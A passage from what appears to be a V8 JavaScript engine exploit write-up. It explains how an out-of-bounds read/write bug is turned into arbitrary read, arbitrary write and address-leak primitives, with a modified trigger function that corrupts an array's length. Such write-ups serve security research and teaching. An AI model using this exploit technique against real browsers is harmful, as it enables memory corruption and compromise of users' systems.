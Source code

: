 ## Powerful Primitives

Now that we have an OOB RW primitive, we can start to craft more
useful primitives, namely `arb_read`, `arb_write`, and `addr_of`:

+ `arb_read(addr)`: Reads 8 bytes from `addr` and returns as a `BigInt`.
+ `arb_write(addr, value)`: Writes the 8-byte `BigInt` value to `addr`.
+ `addr_of(o)`: Returns the address of the object `o`. This _should_
	give the same value as what `%DebugPrint` returns.

Unfortunately, in order to design these primitives, we are going to
need to modify the `trigger` function above one last time. This is
because we need to introduce two more arrays that should be allocated
immediately after `oob_rw_buffer`, and then use those to give us the
primitives we need.

Modified `trigger`:

```js
let oob_buffer = undefined;
let oob_buffer_unpacked = undefined;
let oob_buffer_packed = undefined;

function trigger(minusZero, isstring) {
	// The arrays we shall target
	let a = [0.1, 0.1, 0.1, 0.1, 0.1, 0.1];
	let b = [1.1, 1.2, 1.3, 1.4, 1.5];
	let c = [{}, 2.2, 2.3, 2.4, 2.5, 2.6, 2.7, 2.8];
	let d = [3.1, 3.2, 3.3, 3.4];

	// Trigger the actual bug
	let aux_a = { aux_z : 1.2 };
	aux_a.aux_z = _auxiliary_(minusZero, isstring);
	let i = aux_a.aux_z + 0;	// Real: 1, Feedback type: Range(0, 0)

	// Change `b.length` to 1024 * 1024
	a[i * 16] = (1024*1024).smi2f();

	// Expose OOB RW buffer to outside world, for stage 1
	oob_buffer = b;
	oob_buffer_unpacked = c;
	oob_buffer_packed = d;

	return i == 0 ? 'untriggered' : a[i];
}
```

Now, we have a set of 3 buffers that we can use to provide the exact
primitives we need:

+ `oob_buffer`: This is the attacked array, which provides us with the
  ability to perform oob rw
+ `oob_buffer_unpacked`: This array consists of tagged pointers and
  unpacked floats. This will be used to give us the `addr_of`
  primitive.
+ `oob_buffer_packed`: This array consists of packed floats. This will
  be used to provide our `arb_read` and `arb_write` primitives.
